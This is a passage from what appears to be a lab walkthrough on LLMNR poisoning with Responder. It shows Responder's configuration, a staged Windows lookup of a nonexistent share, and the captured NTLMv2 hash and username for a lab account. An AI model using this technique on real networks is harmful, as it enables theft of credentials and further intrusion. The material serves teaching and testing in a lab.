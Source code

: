 ``` bash
POP3 server                [ON]
SMTP server                [ON]
DNS server                 [ON]
LDAP server                [ON]

[+] HTTP Options:
Always serving EXE         [OFF]
Serving EXE                [OFF]
Serving HTML               [OFF]
Upstream Proxy             [OFF]

[+] Poisoning Options:
Analyze Mode               [OFF]
Force WPAD auth            [OFF]
Force Basic Auth           [OFF]
Force LM downgrade         [OFF]
Fingerprint hosts          [ON]

[+] Generic Options:
Responder NIC              [eth1]
Responder IP               [192.168.56.103]
Challenge set              [1122334455667788]



[+] Listening for events...
```

Since we are on the same network, it is only a matter of time to get a
request from a machine in the subnet. But because our `Windows` machine
is doing nothing, we will receive nothing.

## Capturing credentials

Now let’s act like a normal user in our `Windows` machine. Log in as
`svctest` with the domain `sky.net` and password `Monkey.123`, then open
the start menu and there type `run`. In there we are going to look for a
name on the network, just type the following:

**searching names.**

``` bash
\\FLUIDATTACKS
```

There we will get an error accessing the share, but in our attacker
machine we will get the following:

**Responder output.**

``` bash
[*] [LLMNR]  Poisoned answer sent to 192.168.56.2 for name FLUIDATTACKS
[FINGER] OS Version     : Windows Server 2016 Standard Evaluation 14393
[FINGER] Client Version : Windows Server 2016 Standard Evaluation 6.3
[SMB] NTLMv2-SSP Client   : 192.168.56.2
[SMB] NTLMv2-SSP Username : SKY\svctest
[SMB] NTLMv2-SSP Hash     : svctest::SKY:1122334455667788:D78BEB50968B6AEA3D8A9CD04765BB6A:01010000000000008274E5E0A507D60176E66DEAF12162F90000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D00420031003200080030003000000000000000000000000030000037AE67261C1D6D0CEBBD9D3AA1803818C033512B8B0FD6DEBA539CFD272D615B0A001000000000000000000000000000000000000900220063006900660073002F0046004C00550049004400410054005400410043004B0053000000000000000000
[SMB] Requested Share     : \\FLUIDATTACKS\IPC$
[*] [LLMNR]  Poisoned answer sent to 192.168.56.2 for name FLUIDATTACKS
[FINGER] OS Version     : Windows Server 2016 Standard Evaluation 14393
[FINGER] Client Version : Windows Server 2016 Standard Evaluation 6.3
```